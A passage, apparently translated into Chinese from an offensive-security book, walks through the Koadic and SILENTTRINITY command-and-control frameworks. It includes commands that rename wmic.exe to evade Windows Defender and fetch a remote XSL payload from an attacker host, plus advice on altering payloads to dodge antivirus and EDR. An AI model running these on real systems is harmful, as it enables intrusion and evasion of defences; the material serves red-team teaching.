 然而，前面的触发命令很容易被 Windows Defender 捕获，所以我们需要稍微修改一下——例如，将*wmic.exe*重命名为一些无害的名称，如*dolly.exe*，如下面所示。根据受害者机器的 Windows 版本，你可能还需要修改 Koadic 生成的样式表以规避检测。同样，简单的字符串替换就可以做到（AV 领域的机器学习也不过如此）：

```
# Executing the payload on the target machine

C:\Temp> **copy C:\Windows\System32\wbem\wmic.exe dolly.exe**
C:\Temp> **dolly.exe os get /FORMAT:http://192.168.1.25:9996/ArQxQ.xsl**
```

Koadic 将目标机器称为“僵尸”。当我们在服务器上检查僵尸时，应该能看到目标机器的详细信息：

```
# Our server

(koadic: sta/js/mshta)$ **zombies**

[+] Zombie 1: PIANO\wk_admin* @ PIANO -- Windows 10 Pro
```

我们通过僵尸的 ID 来获取其基本系统信息：

```
(koadic: sta/js/mshta)$ **zombies 1**
   ID:                     1
   Status:                 Alive
   IP:                     192.168.1.30
   User:                   PIANO\wk_admin*
   Hostname:               PIANO
`--snip--`
```

接下来，我们可以选择任何可用的植入物，使用命令`use implant/`，从用 Mimikatz 提取密码到跳转到其他机器。如果你熟悉 Empire，那么你会觉得 Koadic 很容易上手。

唯一需要注意的是，和大多数当前的 Windows C2 框架一样，在将所有有效载荷部署到现场之前，你应该仔细定制并清理它们。开源的 C2 框架就是框架：它们处理一些枯燥的任务，比如代理通信和加密，并提供可扩展的插件和代码模板，但它们每个本地的漏洞或执行技巧都可能是被污染的，应该进行手术般的修改，以规避杀毒软件和端点检测与响应（EDR）解决方案。

对于这种清理，有时简单的字符串替换就能解决问题；有时，我们需要重新编译代码或剪切一些部分。不要期望这些框架能够在全新的、硬化的 Windows 10 系统上完美运行。花时间研究执行技术，并使其适应你自己的需求。

### SILENTTRINITY

我想介绍的最后一个 C2 框架是我个人最喜欢的：SILENTTRINITY（[`github.com/byt3bl33d3r/SILENTTRINITY`](https://github.com/byt3bl33d3r/SILENTTRINITY)）。它采取了一种非常独特的方法，我认为你应该暂时停止阅读这本书，去 YouTube 观看 Marcello Salvati 的演讲“IronPython……OMFG”，内容涉及.NET 环境。

简单地总结一下，PowerShell 和 C#代码会生成中间汇编代码，由.NET 框架执行。然而，还有许多其他语言也能完成同样的工作：F#、IronPython……以及 Boo-Lang！是的，它是一个真实的语言，查查吧。就像一个 Python 爱好者和一个微软迷被关在一个房间里，迫使他们合作，拯救人类免于即将到来的好莱坞式灾难。

虽然每个安全供应商都在忙着寻找 PowerShell 脚本和奇怪的命令行，但 SILENTTRINITY 却在云端悠闲地滑行，使用 Boo-Lang 与 Windows 内部服务交互，并投下看起来完全安全的恶意炸弹：

该工具的服务器端需要 Python 3.7，因此在安装之前，请确保 Python 正常工作；然后继续下载并启动 SILENTTRINITY 团队服务器：

```
# Terminal 1
root@Lab:~/# **git clone https://github.com/byt3bl33d3r/SILENTTRINITY**
root@Lab:~/# **cd SILENTTRINITY**
root@Lab:ST/# **python3.7 -m pip install setuptools**
root@Lab:ST/# `python3.7 -m pip install -r requirements.txt`

# Launch the team server
root@Lab:ST/# `python3.7 teamserver.py 0.0.0.0` `strongPasswordCantGuess` `&`
```
